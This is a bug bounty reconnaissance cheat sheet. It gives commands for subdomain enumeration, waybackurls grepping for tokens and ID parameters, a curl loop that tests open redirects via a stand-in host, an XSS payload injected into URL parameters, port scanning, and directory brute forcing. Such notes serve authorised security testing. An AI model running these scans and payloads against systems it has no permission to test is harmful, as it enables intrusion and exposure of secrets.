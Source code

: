 **Bug Bounty Recon and Exploitation Cheat Sheet**

---

### 1. Sudomy Command (Subdomain Enumeration & Web Analysis)
```bash
./sudomy -d target -dP -eP -rS -cF -pS -tO -gW --httpx -aI webanalyze
```
- `-d`: Target domain
- `-dP`, `-eP`, `-rS`, `-cF`, `-pS`, `-tO`, `-gW`: Subdomain and metadata collection
- `--httpx`: Send results through httpx for probing
- `-aI webanalyze`: Analyze technologies used on web targets

---

### 2. PDF Link Hijacking & Secrets from JS
- **Broken Link Hijacking (PDFs via Wayback):**
  Use waybackurls and check if old PDFs contain broken links pointing to hijackable domains.

- **Secrets from JS (Using BurpSuite):**
  Visit: [https://googlekey.blindf.com/](https://googlekey.blindf.com/) to test for hardcoded secrets.

---

### 3. Waybackurls + Sensitive Info Grepping
```bash
waybackurls target.com | grep -Ei 'user|api|token|@|redirect=|logout=|admin|info|number|address|firstname|lastname'
```

`Try to find IDOR`
```bash
cat Passive_Collect_URL_Full.txt | egrep "id=|uid=|gid=|user_id=|user=|account=|number=|order=|no=|doc=|file=|key=|email=|group=|profile=|edit=|report="
```

- Add more keywords based on target.

#### Open Redirect Testing:
```bash
cat Passive_Collect_URL_Full.txt | grep -ai '=http' | bhedak 'http://redirect.com' | while read host; do
  curl -s -L "$host" -I | grep "redirect.com" && echo -e "$host \033[0;31mVulnerable\n";
done
```

#### XSS Testing:
```bash
cat Passive_Collect_URL_Full.txt |
  grep '=' |
  egrep -iv '.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js|php|py)' |
  uro |
  gsreplace '><img src=x onerror=alert(1);>' |
  freq
```

#### 403 Bypass:
- Try accessing via direct paths or include authorization tokens manually.

---

### 4. Port Scanning and Vulnerability Discovery
```bash
naabu -il ip_resolver.txt -p 21,22,2075,2076,6443,3868,3366,8443,8080,9443,9091,3000,8000,5900,8081,6000,10000,8181,3306,5000,4000,8888,5432,15672,9999,161,4044,7077,4040,9000,8089,443,7447,7080,8880,8983,5673,7443,19000,19080 | tee bbcportscan.txt
```
- **Special Ports**: 21 (Check anonymous FTP), 3306 (MySQL), 3806, etc.

---

### 5. Uncover + Nuclei + Dirsearch
```bash
uncover -q "target.com" -e censys,fofa,shodan,shodan-idb | httpx | tee ips.txt
```
- Analyze IPs for origin leaks / cloudflare bypass.
- Run `nuclei` and `dirsearch` on discovered hosts.

#### Bruteforce with Dirsearch:
```bash
python3 dirsearch.py -e php,asp,aspx,jsp,py,txt,conf,config,bak,backup,swp,old,db,sql,zip,tar.gz,rb,cache,cgi,csv,html,inc,jar,js,json,log,rar,wadl,bkp,bz2 -u https://ruba.com -r -b --json-report=dirsearch.json
```

---

### 6. GitHub Recon
- Visit: [https://vsec7.github.io/](https://vsec7.github.io/)
- GitHub Dorks: [https://raw.githubusercontent.com/7srambo/bugbounty/main/github_dorks.txt](https://raw.githubusercontent.com/7srambo/bugbounty/main/github_dorks.txt)

---

### 7. Web Technology Analysis & Exploits
- **AngularJS**:
  - Check for SSTI: [SSTI Cheatsheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

- **WordPress**:
  - Info: [WordPress Pentesting](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress)
  - Scan: `wpscan --url https://target.com/ --api-token XXXXXX`

---

Stay safe and ethical. Hack the planet responsibly!

